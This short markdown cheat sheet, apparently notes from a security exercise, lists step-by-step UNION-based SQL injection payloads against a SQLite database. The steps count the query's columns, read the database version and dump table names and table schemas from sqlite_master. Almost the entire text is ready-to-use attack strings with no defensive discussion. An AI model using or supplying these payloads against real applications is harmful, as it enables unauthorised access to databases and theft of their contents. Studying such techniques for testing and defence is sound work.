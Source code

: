 # Get amount of columns

`test' and 1 = 0 union select 1,1--`
Then increment number of 1s until correct amount is found
`test' and 1 = 0 union select 1,1,1,1--`

# Get database version

`test' and 1 = 0 union select 1,sqlite_version(),1--`

# Reveal tables

`test' and 1 = 0 union select 1,group_concat(tbl_name),1,1 from sqlite_master--`
`test' and 1 = 0 union select 1,group_concat(sql),1,1 from sqlite_master--`
